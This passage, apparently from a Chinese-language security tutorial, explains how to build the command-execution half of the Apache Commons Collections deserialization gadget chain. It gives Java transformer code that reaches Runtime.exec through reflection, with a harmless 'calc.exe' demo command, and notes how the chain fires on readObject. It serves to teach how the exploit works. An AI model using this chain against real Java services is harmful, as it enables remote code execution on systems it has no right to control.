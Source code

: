 ① 为何要用反射？不直接Runtime.getRuntime()获取实例？

因为如果直接Runtime.getRuntime()返回的是一个Runtime的实例，而Runtime并没有继承Serializable接口，后边会序列化失败。  



综合以上信息，我们构造出任意命令执行的这部分代码：

```Java
 Transformer[] transformers = new Transformer[] {  // ①

                new ConstantTransformer(Runtime.class), 

                new InvokerTransformer("getMethod",   // ②
                        new Class[] {String.class, Class[].class }, // ③
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class},
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers); // ④
```

① 构建了一个transformers数组，在其中构建了任意命令执行的核心代码。

② 利用 java.lang.class 中的 getMethod ，反射获取getRuntime

③ Class[].class、new Class[0] 为啥要这样写？

> 基于getMethod的定义如下
>
> ```java
> public Method getMethod(String name, Class<?>... parameterTypes)
>         throws NoSuchMethodException, SecurityException { ...}
> ```
>
> 可以看出Class[].class，其实就是对应着这里的第二个参数。即使我们不需要传递参数，也要在这里加一个Class[].class，后边对应的new Class[0]就只是起到一个占位的作用。 （invoke 同理）

④ 遍历传入的transformers数组，调用每一个数组中的transform方法。

于是以上代码等同于：

```Java
((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("calc.exe");
```

后半段链就构造好了。

#### 触发

目前已经构造到只需要反序列化后调用ChainedTransformer#transform( )，并传递任意内容即可rce。

- 目的：调用readObject的时候就触发rce。
